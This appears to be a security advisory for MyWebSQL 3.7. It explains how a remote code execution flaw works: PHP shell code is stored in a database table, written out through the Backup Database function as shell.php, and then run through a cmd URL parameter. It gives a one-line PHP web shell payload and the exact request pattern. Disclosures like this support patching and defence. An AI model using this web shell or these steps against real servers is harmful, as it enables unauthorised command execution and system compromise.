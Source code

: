 ## MyWebSQL ver 3.7 remote code execution (RCE) vulnerability Description
- Author: YU-HSIANG HUANG, YUNG-HAO TSENG, Eddie TC CHANG
- Contact: huang.yuhsiang.phone@gmail.com; 0xuhaw@gmail.com; eddietcchang@gmail.com
---
### Testing Target
- Product: MyWebSQL
- Version: 3.7
- Official Website: http://mywebsql.net/
- Github: https://github.com/Samnan/MyWebSQL

### Summary
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability.

### Description
MyWebSQL version in 3.7 has remote code execution (RCE) vulnerability after write a shell code in database and execute `Backup Database` function.
 
### Concept
1. Create a test table (code) and write a shell code in this table. 
 **Shell code example**: `<?php system($_GET[cmd]); ?>`
![](./png/1.png)
2. Execute `Backup Database` function and modify Backup filename as `shell.php`.
![](./png/2.png)
3. Browse `(domain)/mywebsql/backups/shell.php?cmd=XXX`. For instance, `cmd=ipconfig` as below figure.
![](./png/3.png)
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTIwOTQ0NTAxNiwtMTkwMDkwODAwOCwtMT
kxNzI5Mzg4NywxMTAyNDQ3MDE4XX0=
-->